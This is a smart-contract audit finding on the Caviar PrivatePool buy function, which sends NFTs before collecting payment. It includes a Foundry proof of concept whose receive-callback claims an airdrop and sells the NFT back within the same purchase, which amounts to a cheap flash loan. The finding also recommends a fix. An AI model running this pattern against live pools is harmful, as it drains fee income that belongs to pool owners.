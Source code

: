 # The buy function's mechanism enables users to acquire flash loans at a cheaper fee rate.

## Impact

The buy function's mechanism allows users to access flash loans at a lower fee cost, which could affect the pool owner's yield if users opt for it instead of flash loans.

## Proof of Concept

The buy function initially transfers the NFTs to the buyer before verifying and receiving payment. This mechanism creates an opportunity for users to access flash loans that are akin to flash swaps in Uniswap.

It is worth noting that this scenario is only viable in pools with ERC20 tokens since they do not necessitate upfront payment, unlike payable functions. Additionally, it requires the flash loan fee to be greater than the combined buy and sell fees for the NFTs.

A proof-of-concept (PoC) demonstrating this mechanism's efficacy is provided below:

```solidity
// @audit-info These are the default circumstances used by most of the tests:

PrivatePool public privatePool;

address baseToken = address(shibaInu);
address nft = address(milady);
uint128 virtualBaseTokenReserves = 100e6;
uint128 virtualNftReserves = 10e18;
uint16 feeRate = 1e2;
uint56 changeFee = 3e6;
bytes32 merkleRoot = bytes32(0);
address owner = address(this);

uint256[] tokenIds;
uint256[] tokenWeights;
PrivatePool.MerkleMultiProof proofs;
IStolenNftOracle.Message[] stolenNftProofs;

function setUp() public {
    privatePool = new PrivatePool(address(factory), address(royaltyRegistry), address(stolenNftOracle));
    privatePool.initialize(
            baseToken, nft, virtualBaseTokenReserves, virtualNftReserves, changeFee, feeRate, merkleRoot, true, false
    );
    deal(address(shibaInu), address(this), 2e6);

    // @audit-info Giving the pool 60 tokens to trade with
    deal(address(shibaInu), address(privatePool), 100e6);

    for (uint256 i = 0; i < 5; i++) {
        milady.mint(address(privatePool), i + 1);
    }
    assertEq(milady.balanceOf(address(privatePool)), 5, "Didn't mint 5 NFTs for some reason.");
}

function test_failBecauseOfDivisionBy0() public {

    for (uint256 i = 0; i < 5; i++) {
        tokenIds.push(i + 1);
    }

    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.buyQuote(5e18);

    shibaInu.approve(address(privatePool), netInputAmount);
    // @audit-info Trying to buy the 5 tokens present in the pool
    privatePool.buy(tokenIds, tokenWeights, proofs);
}

function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata data
) external override returns (bytes4) {
    // @audit-info Claim airdrop for the specific NFT here
    airdrop.claim(tokenId);

    // @audit-info Selling the NFT here
    uint[] memory _tokenIds = new uint[](1);
    _tokenIds[0] = tokenId;

    milady.approve(address(privatePool), tokenId);
    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.sellQuote(1e18);

    privatePool.sell(_tokenIds, tokenWeights, proofs, stolenNftProofs);
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
}
```

## Tools Used

Manual review, Foundry

## Recommended Mitigation Steps

Consider sending the NFT after the funds have been received by the contract.

The finding in the original report:
https://code4rena.com/reports/2023-04-caviar#m-01-the-buy-functions-mechanism-enables-users-to-acquire-flash-loans-at-a-cheaper-fee-rate
